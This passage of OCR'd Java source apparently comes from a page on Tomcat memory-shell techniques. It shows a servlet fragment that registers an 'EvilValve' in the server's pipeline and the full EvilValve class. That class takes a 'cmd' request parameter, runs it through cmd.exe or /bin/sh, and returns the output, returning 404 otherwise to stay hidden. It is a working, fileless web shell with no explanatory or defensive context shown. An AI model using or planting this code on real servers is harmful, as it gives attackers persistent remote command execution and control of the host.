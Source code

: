 ```java
        standardContext.addValve(evilValve);
        resp.getWriter().println("Valve added");
    }
}
```
```java
package org.example.Servlets;

import org.apache.catalina.Valve;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;

import java.io.IOException;
import java.io.PrintWriter;
import java.util.Scanner;

public class EvilValve implements Valve {
    @Override
    public Valve getNext() {
        return null;
    }

    @Override
    public void setNext(Valve valve) {

    }

    @Override
    public void backgroundProcess() {

    }

    @Override
    public void invoke(Request request, Response response) throws IOException {
        String cmd = request.getParameter("cmd");
        PrintWriter writer = response.getWriter();
        if (cmd != null) {
            String o = "";
            ProcessBuilder p;
            if (System.getProperty("os.name").toLowerCase().contains("win")) {
                p = new ProcessBuilder("cmd.exe", "/c", cmd);
            } else {
                p = new ProcessBuilder("/bin/sh", "-c", cmd);
            }
            Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
            o = c.hasNext() ? c.next() : o;
            c.close();
            writer.write(o);
            writer.flush();
            writer.close();
        } else {
            response.sendError(404);
        }
    }

    @Override
    public boolean isAsyncSupported() {
        return false;
    }
}

```  